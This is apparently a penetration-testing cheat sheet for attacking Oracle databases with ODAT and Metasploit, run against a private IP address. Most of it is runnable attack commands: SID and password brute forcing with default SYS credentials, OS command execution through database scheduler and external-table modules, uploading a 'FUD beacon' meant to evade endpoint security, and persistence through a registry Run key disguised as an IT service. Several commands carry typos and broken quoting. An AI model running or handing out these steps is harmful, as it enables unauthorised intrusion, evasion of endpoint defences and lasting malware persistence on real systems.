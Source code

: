 # Oracle Databases Assessment 

###  First thing to do is to Identify SIDs
```
pyton3 odat sidguesser -s 192.168.3.229 -p 7002

# Metasploit Module
msf5  > use auxiliary/admin/oracle/sid_brute
msf5 auxiliary(admin/oracle/sid_brute) > set rhost 192.168.3.229
rhost => 192.168.3.229
msf5 auxiliary(admin/oracle/sid_brute) > set rport 7002
rport => 7002
msf5 auxiliary(admin/oracle/sid_brute) > run

[*] 192.168.3.229:7002 - Starting brute force on 192.168.3.229, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 192.168.3.229:7002 - 192.168.3.229:7002 Found SID 'XE
```
### Upon Identifing The SID Next thing to do is to bruteforce 
```
python3 odat.py passwordguesser -s 192.168.3.229 -p 7002 -d XE --accounts-file default_userpass.txt
```

### Basic OS Command Execution
Upon Identifying usable Credential, next step is to test an OS Command whether The credentail woork.
```
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c ipconfig && systeminfo\\ > C:\output" -vvv
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c ipconfig && systeminfo\\ > C:\output" -vvv
```
### Execution
* dbmsadvisor Module allow us to upload 
* externaltable Module allow us to execute OS command
```
pyton3 odat dbmsadvisor -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --putFile C:\\Windows\\\tracing Hello.txt  /root/Desktop/hello.txt
pyton3 odat.py externaltable -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --exec "dir C:/Windows/tracing" hello.txt --sysdba

#Target box is being used Window 10 which may enable one of Endpoint Solution, It is better to upload a FUD beacon to avoid being cought by Endpoint Security.
pyton3 odat dbmsadvisor -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --putFile C:\\Windows\\\tracing\\beacon.exe  /root/Desktop/beacon.exe
pyton3 odat.py externaltable -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --exec "dir C:/Windows/tracing" beacon.exe --sysdba

```


### Persistence
```
pyton3 odat dbmsadvisor -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --putFile C:\\Windows\\\tracing\\beacon.exe  /root/Desktop/beacon.exe
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v IT_admin_service /t REG_SZ /d "C:\Windows\tracing\beacon.exe" > C:\output" -vvv

```
